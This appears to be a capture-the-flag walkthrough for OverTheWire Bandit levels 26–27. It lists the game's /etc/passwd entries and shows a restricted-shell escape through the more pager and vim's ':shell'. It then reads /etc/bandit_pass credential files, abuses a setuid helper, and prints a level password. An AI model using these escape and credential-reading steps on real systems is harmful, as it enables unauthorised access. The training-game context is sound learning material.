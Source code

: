 ```
bandit20:x:11020:11020:bandit level 20:/home/bandit20:/bin/bash
bandit21:x:11021:11021:bandit level 21:/home/bandit21:/bin/bash
bandit22:x:11022:11022:bandit level 22:/home/bandit22:/bin/bash
bandit23:x:11023:11023:bandit level 23:/home/bandit23:/bin/bash
bandit24:x:11024:11024:bandit level 24:/home/bandit24:/bin/bash
bandit25:x:11025:11025:bandit level 25:/home/bandit25:/bin/bash
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit27:x:11027:11027:bandit level 27:/home/bandit27:/bin/bash
bandit28:x:11028:11028:bandit level 28:/home/bandit28:/bin/bash
bandit29:x:11029:11029:bandit level 29:/home/bandit29:/bin/bash
bandit3:x:11003:11003:bandit level 3:/home/bandit3:/bin/bash
bandit30:x:11030:11030:bandit level 30:/home/bandit30:/bin/bash
bandit31:x:11031:11031:bandit level 31:/home/bandit31:/bin/bash
bandit32:x:11032:11032:bandit level 32:/home/bandit32:/home/bandit32/uppershell
bandit33:x:11033:11033:bandit level 33:/home/bandit33:/bin/bash
bandit4:x:11004:11004:bandit level 4:/home/bandit4:/bin/bash
bandit5:x:11005:11005:bandit level 5:/home/bandit5:/bin/bash
bandit6:x:11006:11006:bandit level 6:/home/bandit6:/bin/bash
bandit7:x:11007:11007:bandit level 7:/home/bandit7:/bin/bash
bandit8:x:11008:11008:bandit level 8:/home/bandit8:/bin/bash
bandit9:x:11009:11009:bandit level 9:/home/bandit9:/bin/bash
bandit27-git:x:11527:11527::/home/bandit27-git:/usr/bin/git-shell
bandit28-git:x:11528:11528::/home/bandit28-git:/usr/bin/git-shell
bandit29-git:x:11529:11529::/home/bandit29-git:/usr/bin/git-shell
bandit30-git:x:11530:11530::/home/bandit30-git:/usr/bin/git-shell
bandit31-git:x:11531:11531::/home/bandit31-git:/usr/bin/git-shell
```
```bash
cat /usr/bin/showtext
? resize terminal to use more mode on linux ?
ssh -i bandit26.sshkey bandit26@localhost	# enterd more mode
v	# open vim
```
```
:set shell=/bin/bash
:shell
```
```bash
cat /etc/bandit_pass/bandit26
```

| Username | Password |
| :--- | :--- |
| bandit26 | 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z |

```bash
# login in more mode
v	# open vim
:set shell=/bin/bash
:shell
ls
cat text.txt
./bandit27-do
./bandit27-do cat /etc/bandit_pass/bandit27
```
